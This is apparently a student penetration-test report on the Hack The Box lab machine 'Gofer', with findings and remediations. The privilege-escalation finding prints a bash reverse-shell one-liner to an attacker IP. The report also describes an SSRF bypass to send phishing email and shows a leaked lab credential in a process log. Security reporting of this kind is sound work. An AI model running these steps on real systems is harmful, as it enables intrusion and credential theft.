

# Gofer Pentest
Twiddle submission for 2023-2024

[Machine Hacked](https://app.hackthebox.com/machines/Gofer)

[Proof of Completion](https://www.hackthebox.com/achievement/machine/842922/554)
## Table of contents

  ### 1. High Severity Findings
  * ####  1a. Use After Free Vulnerability leads to local privilege escalation
  * ####  1b. Improper access control on web proxy leads to SSRF and aribtrary sending of emails
  ### 2. Medium Severity Findings
  * #### 2a. CronJob leaks credentials of employee account
  * #### 2b. HTTP allows for web proxy crednitals to be intercepted
  ### 3. Low Severity Findings
  * #### 3a. Anonymous Access to SMB shares allows for user enumeration
  * #### 3b. Weak password policy
  ### 4. Remedations
  * #### 4a. Use After Free Vulnerability leads to local privilege escalation
  * #### 4b. Improper access control on web proxy leads to SSRF and aribtrary sending of emails
  * #### 4c. CronJob leaks credentials of employee account
  * #### 4d. Anonymous Access to SMB shares allows for user enumeration
  * #### 4e. Weak password policy
  ### 5. Executive Summary

  ## High Severity Findings

  ### Use After Free Vulnerability leads to local privilege escalation
  The proprietary note taking sotware hosted on GOFER at /usr/local/bin/notes allows for local privilege escalation through a UAF vulnerability that occurs when a user deletes a user then creates a malciious note. This causes the application to think it is being ran by the root user causing the process to elevate to root uid and run a vulnerable system command. Arbitrary command execution can be achieved by prepending a writeable path to the user's PATH variable and creating a malicious script in that path called tar. 

  #### Granular breakdown of vulnerability
<span style="display:block" align="left">
     
</span>

  This code creates a UAF vulernability because the pointer to this freed memory is not reset to 0x0 like when deleting a note.
  
   <span style="display:block" align="left">
     
     
    </span>
    
  \
  &nbsp;
  \
  &nbsp;
  \
  &nbsp;
  \
  &nbsp;
  \
  &nbsp;
  
 As a relative path is called to tar by prepending to the PATH variable another file besides tar can be ran as root if it exists before tar is found. Below is the simple script used to gain remote command line access.
 
 ```
 #!/bin/bash

 bash -i >& /dev/tcp/10.10.14.11/4444 0>&1
 ```

###  Improper access control on web proxy leads to SSRF and aribtrary sending of emails

  The apache config setting of <Limit> is a blacklist of allowed http methods. <Limit GET> will only require http authentication when sending GET requests. [Apache Limit Documentation](https://httpd.apache.org/docs/2.4/mod/core.html#limit). This allows for bypassing of http authentication to directly access web proxy unauthenticated by using any other method. The web proxy allows for access to the localhost only smtp service running on GOFER allowing for smtp commands to be ran though the php gopher wrapper instead of the normal smtp wrapper which is blacklsited. The blacklist entries of localhost and /127 can be bypassed by using 0 as the ip address, which is an alaternate way to write localhost. By sending an email with a malicous odt document linked in it a succesful phish is easy to accomplish. The most likely avenue for phishing is by sending the email from the CEO's email and using the social engineering principle of authrority.

  <div align="left">
    
    

  

## Medium Severity Findings

### CronJob leaks credentials of employee account

A cronjob running the script at path /root/scripts/curl.sh allows leaks the credentials of tbuckley acount which can be viewed by any user through monitoring processes.

```
2023/09/13 16:14:35 CMD: UID=0     PID=45547  | /usr/sbin/smbd --foreground --no-process-group 
2023/09/13 16:15:01 CMD: UID=0     PID=45549  | /usr/sbin/CRON -f 
2023/09/13 16:15:01 CMD: UID=0     PID=45548  | /usr/sbin/CRON -f 
2023/09/13 16:15:01 CMD: UID=0     PID=45551  | /bin/bash /root/scripts/curl.sh 
2023/09/13 16:15:01 CMD: UID=0     PID=45550  | /bin/sh -c /root/scripts/curl.sh 
2023/09/13 16:15:01 CMD: UID=0     PID=45552  | /usr/bin/curl http://proxy.gofer.htb/?url=http://gofer.htb --user tbuckley:ooP4dietie3o_hquaeti 
2023/09/13 16:15:01 CMD: UID=0     PID=45555  | /usr/sbin/CRON -f 
2023/09/13 16:15:01 CMD: UID=0     PID=45556  | /usr/sbin/CRON -f 
2023/09/13 16:15:01 CMD: UID=0     PID=45557  | /bin/bash /root/scripts/mail.sh 
2023/09/13 16:15:01 CMD: UID=0     PID=45558  | /bin/bash /root/scripts/mail.sh 
2023/09/13 16:15:01 CMD: UID=0     PID=45559  | /bin/bash /root/scripts/mail.sh 
2023/09/13 16:15:01 CMD: UID=0     PID=45560  | 
2023/09/13 16:15:01 CMD: UID=0     PID=45561  | /usr/sbin/CRON -f 
2023/09/13 16:15:01 CMD: UID=0     PID=45562  | 
```

### HTTP allows for web proxy crednitals to be intercepted

Lack of implementation of HTTPS on web proxy causes credentials to be sent in plaintext. In addtion capabilities set on tcpdump binary allow for reading of all traffic including any web proxy credentials.

## Low Severity Findings

#### Anonymous Access to SMB shares allows for user enumeration

Access to smb through null account (empty username and password) allows for bruteforcing of SIDs and user enumeration.
<div align="left">

</div>
 \
  &nbsp;
  \
  &nbsp;
  \
  &nbsp;
  \
  &nbsp;
  \
  &nbsp;
  
#### Weak password policy

The password policy on GOFER only requires a minimum password lenght of 5 characters and has no complexity requirements.
```
 ============================( Password Policy Information for 10.10.11.225 )============================

                                                          

[+] Attaching to 10.10.11.225 using a NULL share
                                                                                                                     
[+] Trying protocol 139/SMB...

[+] Found domain(s):
                                                          
        [+] GOFER
        [+] Builtin
                                                          
[+] Password Info for Domain: GOFER
                                                          
        [+] Minimum password length: 5
        [+] Password history length: None
        [+] Maximum password age: 37 days 6 hours 21 minutes 
        [+] Password Complexity Flags: 000000

                [+] Domain Refuse Password Change: 0
                [+] Domain Password Store Cleartext: 0
                [+] Domain Password Lockout Admins: 0
                [+] Domain Password No Clear Change: 0                                                               
                [+] Domain Password No Anon Change: 0
                [+] Domain Password Complex: 0
                                                          
        [+] Minimum password age: None       
        [+] Reset Account Lockout Counter: 30 minutes 
        [+] Locked Account Duration: 30 minutes 
        [+] Account Lockout Threshold: None                                                                          
        [+] Forced Log off Time: 37 days 6 hours 21 minutes 
                                                                                                                     
                                                                                                                     

[+] Retieved partial password policy with rpcclient:                                                                 

                                                          
Password Complexity: Disabled         
```

## Remedations

### Use After Free Vulnerability leads to local privilege escalation

* #### 1. The use after free vulnerability will be fixed by setting the pointer to the user detials to 0x0 and mallocing a new block if the pointer is pointing to 0x0 like when deleting and creating a note.
* #### 2. Using an absolute path instead of an indirect path will make it much harder to gain command execution.

  
### Improper access control on web proxy leads to SSRF and aribtrary sending of emails

* #### 1. Using <Require> instead of limit will require all users of the web proxy to authenticate
* #### 2. Disable gopher:// wrapper if not used in business operations
* #### 3. Improve blacklist to include /0 or implement a whitelist if possible

###  HTTP allows for web proxy crednitals to be intercepted

* #### 1. Implemented HTTPS and updating all employees and scripts that connect to the web proxy will prevent credentials from being sent over the network in plaintext.
  
### CronJob leaks credentials of employee account

* #### 1. Use -n flag and a netrc file in the root directory

### Anonymous Access to SMB shares allows for user enumeration

* #### 1. Disable null acount access

### Weak password policy

* #### 1. Change password policy on GOFER to at a bare minimum require 8 characters and a special character by editing this file /etc/pam.d/common-password

## Executive Summary

A malicous actor would be able to completely compromise GOFER. A large breach kills a start up, there aren't enough employees or customers to be able to survive after the reputation damage and legal fines. Specifically as a NYC based company there is an expectation of security by the state set by the SHIELD act and other similar laws. The fines that come from violations of these laws from a data breach could well exceed any emergency fund captial GOFER has in reserve being a company with only 4 employees. It is emperative that these security issues are resolved for the companies longevity and growth.
